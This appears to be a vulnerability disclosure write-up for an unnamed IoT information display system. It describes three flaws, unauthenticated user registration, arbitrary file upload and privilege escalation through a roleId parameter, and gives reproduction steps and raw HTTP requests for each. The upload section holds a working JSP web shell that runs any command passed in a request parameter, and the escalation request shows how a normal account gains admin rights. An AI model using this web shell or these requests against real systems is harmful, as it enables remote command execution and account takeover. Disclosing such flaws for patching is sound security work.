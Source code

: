 # XX-IoT-System
某XXIoT信息展示系统
<h1 id="PnHti">_<u>Vulnerability Overview: </u>_</h1>
| vulnerability Name  |
| --- |
| 1. Any user registration  |
| 2. Any file Upload  |
| 3. User Authority Promotion  |


---

<h1 id="d5VYs">_any User Registration _</h1>
cause of vulnerability: 

<font style="background-color:#F1A2AB;">improper access control to registration page, insufficient user input validation </font>

---

<font style="background-color:rgba(255, 255, 255, 0);">reproduction steps: </font>

1. Improper access control verification, direct access to the page 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743497865342-6d6af472-46c5-4d5f-ad60-7cab5e3c54c8.png)

2, the registration is successful 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743497699910-cead3c83-594a-47c6-994a-af38a65ed50d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743502804077-d497301a-7b4c-4c8e-8b26-34234003da91.png)

```plain
POST /xx/xxxx/xxxxxxxxAccount.html HTTP/1.1
Host: 192.168.196.142:xxxx
Content-Length: 139
Cache-Control: max-age=0
Origin: http://192.168.196.142:xxxx
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
Connection: keep-alive

userName=kkl1233&userPassword=wuhuKKL%40123&userRePassword=wuhuKKL%40123&userPhone=19666666666&province=110000&city=110100&county=110101&submit=
```



---

<h1 id="d59sP">_upload any file _</h1>
cause of vulnerability: 

<font style="background-color:#F1A2AB;">insufficient file type validation </font><font style="background-color:rgba(255, 255, 255, 0);"></font>

---

reproduction steps: 

1, access the file upload point, use `Burp suite `grab the package and modify the file suffix and content. 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743500712015-35ebd1ab-ff90-439e-8208-90d5d249bb51.png)

By `"savePath" `can control the upload path 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743500421065-2ec6aab7-bd6c-486c-b44c-5d44a6d13665.png)

2. Access the malicious file address and execute arbitrary commands after the upload is successful 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743500927793-3340337f-ed54-44df-9923-856d626dcf24.png)

```plain
POST /xxxxxxx/upload/userfile.htm HTTP/1.1
Host: 192.168.196.142:xxxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1Ny332LTTu9INsqE

------WebKitFormBoundary1Ny332LTTu9INsqE
Content-Disposition: form-data; name="savePath"

/resource
------WebKitFormBoundary1Ny332LTTu9INsqE
Content-Disposition: form-data; name="userId"

7
------WebKitFormBoundary1Ny332LTTu9INsqE
Content-Disposition: form-data; name="filedata"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@ page language="java" import="java.io.*" %>
<%
String cmd = request.getParameter("c");
if (cmd != null) {
    out.println(new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next());
}
%>
------WebKitFormBoundary1Ny332LTTu9INsqE--
```

---

<h1 id="Jqvov">user privilege elevation </h1>
cause of vulnerability: 

the system's "* User rights verification *" uses only the roleid parameter to distinguish users with different rights (such as ordinary users and administrators). 

Reproduction steps:

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505276942-36e05d5d-c5a7-4168-9045-c825503cdcc4.png)

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505114427-20b72bbb-b990-4425-b588-c4a4d0354662.png)

1. Obtain self userId = 7 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505159287-2c0a1fdb-0867-42bd-a180-327b899df3f0.png)

2. Directly send a request to modify roleId 

you need to modify your own cookies. 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505444455-532c5230-2be1-4ee0-844f-9759db6d7d52.png)

View and modify successfully 

admin User View kkl123 

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505476426-b38a010c-0f9a-4843-bafc-3561f51af5f8.png)

kkl123 User Login

![](https://cdn.nlark.com/yuque/0/2025/png/28521795/1743505642442-a4553a49-d242-42cb-bd38-ca57691936ac.png)

```plain
POST /yb/background/user/allocation.html HTTP/1.1
Host: 192.168.196.142:8855
Content-Length: 17
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.196.142:8855
Cookie: JSESSIONID=cookie; DOMAIN_NAME=
Connection: keep-alive

userId=7&roleId=x
```

---

